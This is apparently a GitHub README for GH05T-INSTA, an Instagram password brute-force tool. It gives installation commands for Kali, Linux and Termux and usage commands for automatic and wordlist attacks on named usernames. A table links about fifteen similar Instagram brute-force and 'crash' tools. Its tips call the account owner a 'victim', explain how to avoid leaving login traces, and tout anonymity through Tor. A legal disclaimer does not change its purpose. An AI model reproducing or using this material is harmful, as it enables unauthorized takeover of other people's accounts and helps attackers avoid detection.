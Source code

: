 <img src="https://media.tenor.com/qMER41oNWx8AAAAC/youve-been-hacked-gregory-brown.gif">

## Installation {Kali}

```
sudo -i
```

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
bash install.sh
```

```
gh05t
```





`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

<img src="https://a.top4top.io/p_258969ou50.jpg">

<i>It is a complete toolkit for beginners and easy to learn and use tool without additional pro hacking knowledge.</i>

<b>Main Menu </b>`Fork it...`
<img src="https://f.top4top.io/p_2591gdccl0.jpg">

### Tool Installation

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./venom.sh
```

`Choose : (01) Tool Installation`

### Run Tool

```
apt install git
```

```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```

```
cd GH05T-INSTA
```

```
chmod +x *
```

```
./setup.sh
```

```
./import.sh
```

```
pip install -r requirements.txt
```

```
./venom.sh
```

`Choose : (02) Run Tool`

<img src="https://j.top4top.io/p_2590zeytt0.jpg" alt="GH05T-HUNTER5">

<!--
`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

<img src="https://a.top4top.io/p_258969ou50.jpg">

{MORE LINKS}

## Notice

<b><i>Please do not clone or download this tool because we are trying to fix the problems and we don't know how many possibilities there are to solve these problems.</i><b>

<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA"><br>
<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 7.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
chmod +x *
```
```
./install.sh
```

<b>or</b>

```
python install.py
```

<b>Start</b>

```
gh05t
```

```
 Run Tor
```


## Linux Installation 3.01 

`Install Home` 

`$ cd home/`

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
```
./gh05t --help
```

<b>or</b>

```
./gh05t
```

<b>Linux Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.linux/README.md">Click This</a></b>

<b>Report : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new?assignees=&labels=&template=bug_report.md&title=">Issues</a></b>

## Termux Installation 3.01 

```
pkg update && pkg upgrade
```
```
pkg install tor -y
```
```
pkg update tor -y 
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd 
```
```
rm -rf GH05T-INSTA
```

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

## This Tool is not working properly Please wait we are trying to solve this problem 

<img src="https://user-images.githubusercontent.com/123439847/214219519-bea6426e-866f-42a9-8850-e8ab340020cc.png">

<b> Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">Link</a></b>

### Notice

`Dear friends, this tool works but to install some basic packages Can't For example, pip will not work on Termex`

```
Don't worry, this problem is temporary
```

```bash
read -p 'Enter your name : ' user
gh05t --user $user --pass 18
```
### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

### Banner

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA"><br>

```
     ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗  
    ██╔════╝ ██║  ██║██╔═████╗██╔════╝╚══██╔══╝ 
    ██║  ███╗███████║██║██╔██║███████╗   ██║     
    ██║   ██║██╔══██║████╔╝██║╚════██║   ██║     
    ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║     
     ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝      
       ██╗███╗   ██╗███████╗████████╗ █████╗     
       ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗    
       ██║██╔██╗ ██║███████╗   ██║   ███████║    
       ██║██║╚██╗██║╚════██║   ██║   ██╔══██║    
       ██║██║ ╚████║███████║   ██║   ██║  ██║    
       ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝    


  ```


### INSTAGRAM BRUTEFORCE

##### Link ( 1 ) : https://github.com/MR-S74RK/ZHOI-INSTA

##### Link ( 2 ) : https://github.com/dark-player/instabrute.github.io

##### Link ( 3 ) : https://github.com/hackerxphantom/xinsta_brute

##### Link ( 4 ) : https://github.com/SamueleAmato/instaForce

##### Link ( 5 ) : https://github.com/eternalodball/insbrute

##### Link ( 6 ) : https://github.com/Bitwise-01/Instagram-

##### Link ( 7 ) : https://github.com/chinoogawa/instaBrute

##### Link ( 8 ) : https://github.com/importCTF/Instagram-Hacker

##### Link ( 9 ) : https://github.com/xHak9x/instabrute

##### Link ( 10 ) : https://github.com/TermuxHackz/instagram-bruteforcer



<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>
-->

### INSTA BRUTEFORCE TOOLS

#### beginner-friendly 

<b>Add New Tool <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/edit/main/README.md">Link</a></b>
<table>
  <tr>
    <th>No#</th>
    <th>Tool Name</th>
    <th>Tool Link</th>
    <th>System</th>
    <th>Command</th>
  </tr>
  <tr>
   <td>01</td>
    <td>ZHOI-INSTA</td>
    <td><a href="https://github.com/MR-S74RK/ZHOI-INSTA">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ZHOI-INSTA.md">INSTALLATION</a></td>
  </tr>
  <tr>
<td>02</td>
    <td>instagram-crash</td>
    <td><a href="https://github.com/kucing-hitam/instagram-crash">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-crash.md">INSTALLATION</a></td>
  </tr>
  <tr>
<td>03</td>
   <td>Brutegram</td>
    <td><a href="https://github.com/Err0r-ICA/Brutegram">Link</a></td>
     <td>Termux</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Brutegram.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>04</td>
   <td>instashell</td>
    <td><a href="https://github.com/tiptoettt/instashell">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instashell.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>05</td>
   <td>insta-hack</td>
    <td><a href="https://github.com/IncredibleHacker/insta-hack">Link</a></td>
    <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insta-hack.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>06</td>
   <td>instainsane</td>
    <td><a href="https://github.com/umeshshinde19/instainsane">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instainsane.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>07</td>
   <td>xinsta_brute</td>
    <td><a href="https://github.com/hackerxphantom/xinsta_brute">Link</a></td>
    <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/xinsta_brute.md">INSTALLATION</a></td>
 </tr>
<tr>
<td>08</td>
   <td>SocialMediaHackingToolkit</td>
    <td><a href="https://github.com/RedKatz/SocialMediaHackingToolkit">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/SocialMediaHackingToolkit.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>09</td>
   <td>insbrute</td>
    <td><a href="https://github.com/eternalodball/insbrute">Link</a></td>
    <td>Kali User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/insbrute.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>10</td>
   <td>Instagram-</td>
    <td><a href="https://github.com/Bitwise-01/Instagram-">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-.md">INSTALLATION</a></td>
  </tr>
<tr>
<td>11</td>
   <td>instaBrute</td>
    <td><a href="https://github.com/chinoogawa/instaBrute">Link</a></td>
    <td>All</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instaBrute.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>12</td>
   <td>Instagram-Hacker</td>
    <td><a href="https://github.com/importCTF/Instagram-Hacker">Link</a></td>
     <td>Kali User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/Instagram-Hacker.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>13</td>
   <td>instabrute</td>
    <td><a href="https://github.com/xHak9x/instabrute">Link</a></td>
   <td>Termux User</td>
    <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instabrute.md">INSTALLATION</a></td>
<tr>
<td>14</td>
   <td>instagram-bruteforcer</td>
    <td><a href="https://github.com/TermuxHackz/instagram-bruteforcer">Link</a></td>
     <td>All</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/instagram-bruteforcer.md">INSTALLATION</a></td>
   </tr>
<tr>
<td>15</td>
   <td>ighack</td>
    <td><a href="https://github.com/noob-hackers/ighack">Link</a></td>
     <td>Termux User</td>
     <td><a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/command/ighack.md">INSTALLATION</a></td>
  </tr>
<tr>
</table>

### GH05T-INSTA {BRUTEFORCE}

$ `apt install git`

$ `git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA`

$ `cd GH05T-INSTA`

$ `install.sh`

$ `gh05t`

<b>COMMAND : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.gh05t/README.md">LINK</a></b>

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<pre>These hackers from India, Pakistan, Bangladesh, Germany and Russian created this tool , thanks to these hackers</pre>

-->
